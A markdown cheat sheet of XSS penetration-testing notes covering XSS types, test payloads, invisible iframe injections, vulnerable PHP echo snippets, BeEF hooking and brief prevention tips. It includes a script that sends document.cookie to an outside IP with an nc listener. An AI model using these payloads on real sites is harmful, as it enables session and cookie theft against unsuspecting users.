 # [XSS] Cross Site Scripting
**Links**
https://portswigger.net/web-security/cross-site-scripting
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)



```reStructuredText
XSS vulnerabilities are caused due to unsanitized user input that is then displayed on a web page in HTML format. These vulnerabilities allow malicious attackers to inject client side scripts, such as JavaScript, into web pages viewed by other users.

Although XSS attacks don't directly compromise a machine, these attacks can still have significant impacts, such as cookie stealing and authentication bypass, redirecting the victim’s browser to a malicious HTML page, and more."

**Only JavaScript or VbScript embedded in auth.y.com can read cookies belonging to auth.y.com**

reflected = non persistence, echoed back immediately. In the HTTP request!
stored = persistence, stored in web application
DOM XSS = lives within the DOM environment, a page's client-side script itself and soes not reach server-side code
```



**Camouflage URL**

- tinyurl
- iframes
- link in a targeted email

`<plaintext> tag/payload for testing`

<script>alert('abc');</script>
<script>alert(document.cookie)</script>

`string.fromCharCode(xxx, xxx, xxx)`



**Payload example**

```php+HTML
<script>
x = '<!--<script>' < /script>/ - alert(1)
</script>
```

**PHP code injection**

```php+HTML
<?
echo '<h4>Hello ' . $_GET['name'] . '</h4>';
?>
```



**Browser Redirection and IFRAME Injection**

```html
.<iframe SRC="http://$ip/report" height = "0" width ="0"></iframe>
invisible iframe
.<iframe src="http://<me>:<myport>/something" height="0" width="0"></iframe> 
```

**Stealing Cookies and Session Information**

```html
.<iframe src="http://10.11.0.5/report" height = "0" width = "0"></iframe>
.<script> new Image().src="http:10.11.0.126/bogus.php?output="+document.cookie; </script>

nc -nlvp 80

<img src="logo.png" alt="<?= $_GET['name'] ?>">
```



### Exploitation with Beef
Put the hook link in the web page by XSS



## With event handlers

```javascript
abc" onmouseover=alert("XSS") "
onclick, onload, onerror etc

<a onmouseover="alert('xss')">xss link</a>
<IMG SRC=# onmouseover="alert('xss')">
<IMG SRC=/ onerror="alert('xss')"></img>
```




## How to prevent XSS
- Encoding: < becomes `&lt;`
- Filtering: <script> becomes script
- Validating: compare input against white list
- Sanitization: combination of escaping, filtering and validation
